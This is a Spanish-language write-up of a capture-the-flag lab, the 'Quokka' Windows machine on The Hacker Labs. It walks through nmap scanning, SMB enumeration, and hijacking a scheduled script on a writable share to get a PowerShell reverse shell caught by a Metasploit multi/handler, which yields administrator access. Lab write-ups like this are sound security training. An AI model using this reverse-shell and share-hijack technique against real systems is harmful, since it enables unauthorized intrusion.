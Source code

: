 # Quokka - The Hacker Labs (Fácil)

Quokka es una máquina Windows de la plataforma de "The Hacker Labs". De dificultad fácil.

- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Post-Explotación](#post-explotación)

## Reconocimiento

Lo primero es hacer ping a la máquina para comprobar si hay conectividad. La ttl es 128 por lo tanto la máquina es Windows.

![ping](captura_2025-05-02_12-21-03.png)

Hacemos un escaner con nmap para ver que puertos hay abiertos.

`nmap -p- -vvv --open -T5 -Pn -n 10.0.2.16`

![puertos](captura_2025-05-02_12-22-50.png)

## Enumeración

Hacemos un escaner con nmap para analizar que servicios corren en los puertos.

`nmap -p 80,135,139,445,5985,47001,49664,49665,49667,49669,49670,49671,49681 -sVC -Pn -n 10.0.2.16 -oN scan`

Y vemos que principalmente corre un servicio HTTP y un SMB, que podemos identificar por los puertos 139 y 445.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-02 12:24 CEST
Nmap scan report for 10.0.2.16
Host is up (0.0040s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Portfolio y Noticias Tech de Quokka 
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Datacenter 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49681/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -39m58s, deviation: 1h09m16s, median: 1s
| smb-os-discovery: 
|   OS: Windows Server 2016 Datacenter 14393 (Windows Server 2016 Datacenter 6.3)
|   Computer name: WIN-VRU3GG3DPLJ
|   NetBIOS computer name: WIN-VRU3GG3DPLJ\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-02T12:25:56+02:00
|_nbstat: NetBIOS name: WIN-VRU3GG3DPLJ, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:f1:48:2a (Oracle VirtualBox virtual NIC)
| smb2-time: 
|   date: 2025-05-02T10:25:56
|_  start_date: 2025-05-02T10:17:14
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.37 seconds
```

También he ejecutado `whatweb` para ver si el servicio http me puede dar mas información pero no encuentro nada mas.

![whatweb](captura_2025-05-02_12-27-22.png)

Si entramos en la página y la inspeccionamos un poco podremos vemos que es una página estática así que por aqui no hay mucho que ver.

![página](captura_2025-05-02_12-28-28.png)

Luego ejecuto el comando `enum4linux` para ver si me da información sobre el SMB, pero al no proporcionarle ningún usuario no me da información.

![enum4linux](captura_2025-05-02_12-31-11.png)

Viendo la parte derecha de la página podemos ver varios nombres.

![nombres](captura_2025-05-02_12-31-34.png)

Así que probamos a ejecutar `enum4linux` con el usuario daniel, y ahora si obtenemos mas información.

`enum4linux -u daniel -a 10.0.2.16`

Tanto con `enum4linux` como con `smbmap` podemos ver una carpeta compartida con permisos tanto de lectura como de escritura.

![enum4linux](captura_2025-05-02_12-32-46.png)

![smbmap](captura_2025-05-02_12-33-11.png)

Entramos en la carpeta compartida "Compartido" con `smbclient` y descargamos su contenido.

![smbclient](captura_2025-05-02_12-33-56.png)

```
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

![tree](captura_2025-05-02_12-38-16.png)

![tree](captura_2025-05-02_12-38-29.png)

Después de mirar varios archivos encontramos este, el cual se ejecuta cada minuto y lo que hace es descargar y ejecutar un archivo .ps1 con powershell.

![alt text](captura_2025-05-02_12-49-28.png)

## Explotación

Teniendo en cuenta que esta carpeta compartida tiene permisos de escritura podemos escribir un archivo `mantenimiento.bat` que descargue un archivo .ps1 que a su vez ejecute una shell reversa.

`nvim mantenimiento.bat`

![mantenimiento.bat](captura_2025-05-02_12-47-13.png)

Desde esta pagina podemos copiar una reverse shell que se ejecute con powershell:
https://www.revshells.com/

Creamos el archivo shell.ps1 y pegamos el código.

`nvim shell.ps1`

![shell.ps1](captura_2025-05-02_12-53-53.png)

Creo un servidor http con python.

![python3 -m http.server 8000](captura_2025-05-02_13-00-17.png)

Pongo el puerto 4444 en escucha con `msfconsole` para así posteriormente poder mejorar la shell a meterpreter (spoiler: no pude hacerlo).

```
sudo msfconsole
use multi/handler
set LHOST 10.0.2.11
set payload windows/shell/reverse_tcp
run
```

Subo el archivo `mantenimiento.bat` por SMB.

![put mantenimiento.bat](captura_2025-05-02_13-17-55.png)

Espero a obtener la shell.

![multi/handler](captura_2025-05-02_13-21-45.png)

![pwd](captura_2025-05-02_13-21-56.png)

## Post-Explotación

Aqui intento mejorar la shell a meterpreter sin exito.

![meterpreter](captura_2025-05-02_13-24-23.png)

Abro la shell de nuevo y veo que soy el administrador.

`sessions 2`

![dir](captura_2025-05-02_13-25-19.png)

Aquí está la flag del admin admin.txt.

![admin.txt](captura_2025-05-02_13-26-02.png)

Aquí está la flag de usuario user.txt.

![user.txt](captura_2025-05-02_13-27-30.png)
